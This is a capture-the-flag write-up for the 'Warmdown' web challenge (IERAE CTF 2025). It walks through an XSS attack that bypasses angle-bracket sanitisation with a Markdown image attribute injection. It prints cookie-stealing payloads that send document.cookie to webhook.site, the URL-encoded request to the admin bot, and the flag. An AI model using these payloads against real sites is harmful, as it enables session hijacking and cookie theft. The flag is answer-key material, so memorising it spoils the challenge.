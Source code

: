 # Challenge Details
Challenge name: Warmdown  
Competition: IERAE CTF 2025  
Category: Web/warmup  
Difficulty: Easy  
Points: 138  
Solves: 135

# Challenge Description
Warmdown = Warmup + Markdown

Challenge: http://34.146.192.216:3000
Admin bot: http://34.85.61.65:1337

# About the challenge
Nice challenge involving getting the bots cookie with a webhook.

# Solve
```js
const context = await browser.createBrowserContext();
try {
    await context.setCookie({
      name: "FLAG",
      value: FLAG,
      domain: APP_HOST,
      path: "/",
});
...
await page.goto(url, { timeout: 5_000 });
```
The bot uses Puppeteer to manually **set the flag as a cookie** in the browser context before visiting the page. It then **visits the url that you provide** it. 

Note: you will only be able to access the cookie if the url you provided is the same domain as **APP_HOST**. In this case its just "web".

To do a simple xss attack you can do 
```js
<img src = "x" onerror = "fetch('https://webhook.site/?c=' + encodeURIComponent(document.cookie))">
```
We will pass the payload to the bot by putting it in the markdown parameter.
But wait, take a look at the web pages backend.
```js
const sanitize = (unsafe) => unsafe.replaceAll("<", "＜").replaceAll(">", "＞");

const escapeHtml = (str) =>
  str
    .replaceAll("&", "&amp;")
    .replaceAll("<", "&lt;")
    .replaceAll(">", "&gt;")
    .replaceAll('"', "&quot;")
    .replaceAll("'", "&#039;");

const unescapeHtml = (str) =>
  str
    .replaceAll("&amp;", "&")
    .replaceAll("&lt;", "<")
    .replaceAll("&gt;", ">")
    .replaceAll("&quot;", '"')
    .replaceAll("&#039;", "'");

app.get("/render", async (req, reply) => {
  const markdown = sanitize(String(req.query.markdown));
  if (markdown.length > 1024) {
    return reply.status(400).send("Too long");
  }

  const escaped = escapeHtml(marked.parse(markdown));
  const unescaped = unescapeHtml(escaped);

  return { escaped, unescaped };
});
```
Our payload will undergo sanitisation, as well as become parsed through **marked.parse(markdown)**
*<span style="font-size: 12px">As our input undergoes escapeHTML but then immediately undergoes unescapeHTML, we can ignore it. </span>*

We will have to change the format of our payload to **Markdown format**
```js
![x" onerror="fetch('https://webhook.site/.../?c='+encodeURIComponent(document.cookie))" z="](x)
```
URL encoding gives us
```js
%21%5Bx%22%20onerror%3D%22fetch('https%3A%2F%2Fwebhook.site%2F....%2F%3Fc%3D'%2BencodeURIComponent(document.cookie))%22%20z%3D%22%5D(x)
```
## Final payload that we can send to burpsuite/curl
```
POST /api/report HTTP/1.1
Host: 34.85.61.65:1337
Content-Type: application/json
Content-Length: 218

{"url":"http://web:3000/?markdown=%21%5Bx%22%20onerror%3D%22fetch('https%3A%2F%2Fwebhook.site%2F.....%2F%3Fc%3D'%2BencodeURIComponent(document.cookie))%22%20z%3D%22%5D(x)"}
```

Flag: IERAE{I_know_XSS_is_the_m0st_popular_vu1nerabili7y}
